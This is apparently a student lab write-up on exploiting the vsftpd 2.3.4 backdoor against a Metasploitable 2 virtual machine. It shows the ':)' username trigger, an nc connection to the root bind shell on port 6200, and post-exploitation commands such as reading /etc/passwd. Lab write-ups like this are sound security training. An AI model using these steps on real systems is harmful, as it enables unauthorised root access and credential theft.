




# Metasploitable Lab 2 — Exploiting vsftpd 2.3.4 Backdoor

## Objective

The objective of this lab was to exploit a known vulnerability in the vsftpd 2.3.4 FTP service to gain remote shell access to the target system.

This demonstrates how attackers leverage vulnerable services identified during reconnaissance to gain unauthorized access.

---

## Lab Environment

| Component | Description |
|-----------|-------------|
| Host Machine | MacBook Pro (Intel, 16GB RAM) |
| Virtualization | VirtualBox |
| Attacker Machine | Kali Linux |
| Target Machine | Metasploitable 2 |
| Network | VirtualBox Host-only Network |
| Network Range | 192.168.56.0/24 |

---

## Lab Network Topology

```
Internet
   |
Kali Linux (eth0 - NAT)
   |
Kali Linux (eth1 - Host-onl)
   |
192.168.56.0/24 Lab Network
   |
Metasploitable 2
```

---

## Tools Used

| Tool | Purpose |
|------|--------|
| FTP Client | Connect to FTP service and trigger vulnerability |
| Netcat (nc) | Connect to remote shell |
| Nmap | Verify backdoor port |

---

# Step 1 — Identifying the Vulnerable Service

During the previous reconnaissance phase, the following service was identified:

```
21/tcp open ftp vsftpd 2.3.4
```

This version of vsftpd is known to contain a malicious backdoor.

---

## Vulnerability Overview

vsftpd 2.3.4 was compromised in a supply chain attack where attackers inserted a hidden backdoor into the source code.

The backdoor is triggered when a username containing:

```
:)
```

is used during login.

Once triggered, the server opens a shell on port 6200.

---

# Step 2 — Connecting to the FTP Service

## Command Used

```bash
ftp 192.168.56.3
```




### Command Breakdown

| Option | Meaning |
|--------|--------|
| `ftp` | Launch FTP client |
| `192.168.56.3` | Target machine IP address |

---

## Exploitation

When prompted for a username, the following was entered:

```
test:)
```

Password:

```
password
```

The login attempt fails, but triggers the backdoor.

---

# Step 3 — Verifying Backdoor Activation

## Command Used

```bash
nmap -p 6200 192.168.56.3
```



### Command Breakdown

| Option | Meaning |
|--------|--------|
| `-p 6200` | Scan specific port |
| `192.168.56.3` | Target IP |

### Result

```
6200/tcp open
```

This confirms the backdoor successfully opened a shell listener.

---

# Step 4 — Gaining Shell Access

## Command Used

```bash
nc 192.168.56.3 6200
```


### Command Breakdown

| Option | Meaning |
|--------|--------|
| `nc` | Netcat tool |
| `192.168.56.3` | Target IP |
| `6200` | Backdoor shell port |

---

## Result

A shell connection was established.

The shell did not display a prompt due to being non-interactive, but commands executed successfully.

### Verification

```bash
whoami
```

Output:

```
root
```

---

# Step 5 — Post-Exploitation Verification

Additional commands were executed to confirm system access:

```bash
id
uname -a
ls /
cat /etc/passwd
```



These confirmed:

- Root-level privileges
- Linux operating system details  
- Full filesystem access  

---

## Key Findings

- The vsftpd service contained a hidden backdoor  
- No authentication was required to gain shell access  
- The attacker obtained root privileges immediately  
- The shell was accessible over TCP port 6200  

---

## Security Concepts Learned

This lab demonstrated several important cybersecurity concepts:

- **Exploitation of Known Vulnerabilities** — Using service version data to identify attack vectors  
- **Backdoors** — Hidden functionality that allows unauthorized access  
- **Bind Shells** — A shell bound to a network port waiting for connections  
- **Non-Interactive Shells** — Limited shells without full terminal functionality  
- **Supply Chain Attacks** — Compromising software before distribution  

---

## Lessons Learned

- Service version enumeration directly leads to exploitable vulnerabilities  
- Even “secure” software can be compromised at the source level  
- Attackers can gain full system access with minimal interaction  
- Understanding how exploits work is critical for both attackers and defenders  
- Basic shells often lack usability, requiring further post-exploitation steps  